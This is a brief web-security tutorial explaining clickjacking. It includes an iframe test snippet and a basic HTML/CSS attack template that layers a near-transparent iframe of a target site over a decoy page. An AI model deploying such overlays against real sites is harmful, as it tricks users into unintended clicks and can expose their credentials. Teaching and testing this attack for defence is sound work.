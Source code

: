 **Clickjacking** is an interface-based attack in which a user is tricked into clicking on actionable content on a hidden website by clicking on some other content in a decoy website. 

So, the attacker creates their own webpage, which they place with very low opacity, and embeds the victim page using an iframe (HTML tag). This way, the victim user thinks they are accessing the legitimate page. The attacker can add different layers over the supposed login page to hijack credentials. To quickly test if this attack could be applied, one just needs to attempt to embed the victim page in an iframe.

```bash
<iframe id="target_website" src="https://vulnerable-website.com">
```
## How to construct a basic clickjacking attack
Clickjacking attacks use CSS to create and manipulate layers. The attacker incorporates the target website as an iframe layer overlaid on the decoy website. An example using the style tag and parameters is as follows:
```bash
<head>
	<style>
		#target_website {
			position:relative;
			width:128px;
			height:128px;
			opacity:0.00001;
			z-index:2;
			}
		#decoy_website {
			position:absolute;
			width:300px;
			height:400px;
			z-index:1;
			}
	</style>
</head>
...
<body>
	<div id="decoy_website">
	...decoy web content here...
	</div>
	<iframe id="target_website" src="https://vulnerable-website.com">
	</iframe>
</body>
```
